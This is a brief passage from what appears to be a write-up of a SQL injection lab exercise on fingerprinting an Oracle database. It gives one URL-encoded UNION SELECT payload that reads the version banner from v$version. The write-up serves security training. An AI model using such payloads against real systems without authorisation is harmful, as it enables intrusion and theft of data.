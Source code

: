 ![image-20250524150555287](./image/image-20250524150555287.png)

=> you see that both 2 columns return text data (if I query 1 column, it returns server error).  

Search for the query to retrieve the database version from the [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), to craft the sqli payload as follow: 

```sql
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
